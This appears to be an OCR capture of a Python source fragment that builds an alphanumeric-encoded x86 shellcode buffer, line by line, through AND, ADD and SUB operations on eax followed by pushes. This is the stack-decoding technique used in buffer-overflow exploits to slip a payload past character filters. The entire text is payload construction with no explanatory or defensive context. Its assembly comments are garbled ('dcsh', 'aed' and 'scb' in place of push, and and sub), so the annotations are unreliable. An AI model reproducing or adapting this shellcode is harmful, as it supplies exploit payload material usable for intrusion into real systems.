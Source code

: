 ```python
shellcode += "\x05\x66\x11\x35\x03" ## add  eax, 0x03351166
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x42\x44\x76\x13" ## add  eax, 0x13764442
shellcode += "\x05\x31\x33\x65\x23" ## add  eax, 0x23653331
shellcode += "\x05\x32\x33\x54\x12" ## add  eax, 0x12543332
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x63\x77\x47\x24" ## add  eax, 0x24477763
shellcode += "\x05\x63\x66\x46\x13" ## add  eax, 0x13466663
shellcode += "\x05\x42\x55\x35\x23" ## add  eax, 0x23355542
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x11\x62\x37\x64" ## add  eax, 0x64376211
shellcode += "\x05\x21\x51\x36\x63" ## add  eax, 0x63365121
shellcode += "\x05\x11\x32\x35\x43" ## add  eax, 0x43353211
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x62\x67\x26\x66" ## add  eax, 0x66266762
shellcode += "\x05\x52\x56\x15\x55" ## add  eax, 0x55155652
shellcode += "\x05\x42\x35\x24\x36" ## add  eax, 0x36243542
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x16\x15\x13\x12" ## add  eax, 0x12131516
shellcode += "\x05\x05\x04\x14\x01" ## add  eax, 0x01140405
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x62\x73\x23\x54" ## add  eax, 0x54237362
shellcode += "\x05\x52\x72\x14\x54" ## add  eax, 0x54147252
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x67\x33\x36\x66" ## add  eax, 0x66363367
shellcode += "\x05\x56\x22\x35\x55" ## add  eax, 0x55352256
shellcode += "\x05\x65\x22\x36\x44" ## add  eax, 0x44362265
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x56\x37\x55\x42" ## add  eax, 0x42553756
shellcode += "\x05\x55\x27\x55\x42" ## add  eax, 0x42552755
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x17\x37\x33\x16" ## add  eax, 0x16333717
shellcode += "\x05\x26\x36\x32\x15" ## add  eax, 0x15323626
shellcode += "\x05\x15\x25\x32\x14" ## add  eax, 0x14322515
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x44\x46\x67\x71" ## add  eax, 0x71674644
shellcode += "\x05\x44\x45\x56\x61" ## add  eax, 0x61564544
```